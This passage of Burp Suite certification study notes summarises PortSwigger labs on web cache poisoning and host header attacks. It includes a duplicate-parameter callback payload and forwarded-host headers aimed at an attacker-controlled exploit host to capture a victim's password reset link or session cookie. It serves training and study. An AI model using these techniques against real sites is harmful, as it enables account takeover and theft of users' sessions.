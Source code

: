 > Remove the `cb=123` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.

[PortSwigger Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

#### Duplicate Parameter Fat Poison

> Identify that the application is vulnerable to duplicate parameter poisoning, by adding a second parameter with same name and different value the response reflected the injected value.

```
GET /js/geolocate.js?callback=setCountryCookie&callback=FUZZERFunction; HTTP/2
```

> The function that is called in the response by passing in a duplicate callback parameter is reflected. Notice in response the cache key is still derived from the original callback parameter in the GET request line.

> Not able to make cookie stealer payload working......

[PortSwigger Lab: Web cache poisoning via a fat GET request](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)

***

### Host Headers

[Spoof IP Address](broken-reference)\
[HOST Connection State](broken-reference)\
[Host Routing based SSRF](broken-reference)\
[SSRF via flawed Host request parsing](broken-reference)

#### Spoof IP Address

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.\
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[PortSwigger Lab: Password reset poisoning via middle-ware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

#### HOST Connection State
